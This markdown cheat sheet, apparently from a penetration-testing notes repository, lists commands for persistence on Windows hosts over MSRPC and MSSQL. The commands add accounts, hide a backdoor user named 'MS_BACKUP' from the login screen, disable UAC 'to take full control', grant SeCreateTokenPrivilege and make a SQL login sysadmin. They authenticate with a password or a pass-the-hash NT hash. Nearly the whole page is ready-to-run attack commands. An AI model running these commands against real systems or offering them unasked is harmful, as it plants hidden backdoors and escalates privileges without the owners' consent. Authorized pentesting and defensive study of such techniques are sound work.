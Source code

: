 # Unix Shell

## 01 - MSRPC Port

### 1.1 - `net`

Create user

```
$ net <ads | rpc> user add "sysadmin" "s3cur3d+1T" [-F user flags] [-C comment] -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> user add "sysadmin" "s3cur3d+1T" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

Create group

```
$ net <ads | rpc> groupmember add <group_name> <remote_username> -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> groupmember add <group_name> <remote_username> -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 1.2 - Impacket

Makes the user account invisible from the Windows Login screen

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -v sysadmin -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -v sysadmin -vt REG_DWORD -vd 0
```

Persistence method to add user account

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -v MS_BACKUP -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -v MS_BACKUP -vt REG_DWORD -vd 0
```

Disabling UAC that allows the hacker to take full control

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 0
```

Enabling UAC to make the admin restrictive

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 1

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 1
```

### 1.2 - `rpcclient`

Create domain user account

```
rpcclient $> createdomuser <username>

rpcclient $> setuserinfo2 <username> <level> <password>

rpcclient $> setuserinfo2 <username> 23 <password>

rpcclient $> setuserinfo2 <username> 24 <password>
```

Confirm the created user account exists.

```
rpcclient $> queryuser <username>
```

TODO: Fill this info

- LSA create account

```
rpcclient $> lsaenumsid

rpcclient $> lookupsids S-1-1-0
```

Lookup username accounts

```
rpcclient $> lookupnames <username>

rpcclient $> lsacreateaccount S-1-1-0
```

Lookup privileges

```
rpcclient $> enumprivs

rpcclient $> lsaaddpriv S-1-1-0 SeCreateTokenPrivilege

rpcclient $> lsaenumprivsaccount S-1-1-0
```

Delete then check

```
rpcclient $> lsadelpriv S-1-1-0 SeCreateTokenPrivilege

rpcclient $> lsaenumprivsaccount S-1-1-0
```

```
lsaaddacctrights S-1-5-21-3232368669-2512470540-2741904768-1103 SeCreateTokenPrivilege

lsaenumprivsaccount S-1-5-21-3232368669-2512470540-2741904768-1103

lsaremoveacctrights S-1-5-21-3232368669-2512470540-2741904768-1103 SeCreateTokenPrivilege

lsaenumprivsaccount S-1-5-21-3232368669-2512470540-2741904768-1103
```

## 02 - MSSQL Port

TODO: Fill this info

### 2.1 - SQSH

```
C:\> sqlcmd [-S <IP>] -E -Q

CREATE LOGIN <username> WITH PASSWORD = '<password>';
sp_addsrvrolemember '<username>', 'sysadmin';
go
```

### 2.2 - Impacket

```
$ mssqlclient.py -port 1433 -windows-auth <domain>/<username>:<password>@<IP>

$ mssqlclient.py -port 1433 -windows-auth <domain>/<username>@<IP> -hashes :<nt_hash>
```

### 2.3 - NetExec

```
$ netexec mssql -u "<username>" -p "<password>" [-d <domain> | --local-auth]

$ netexec mssql -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

---
## References

### Microsoft

- [Microsoft Open Specification: USER_INFORMATION_CLASS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN)

### Hacktricks

- [Hacktricks: Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)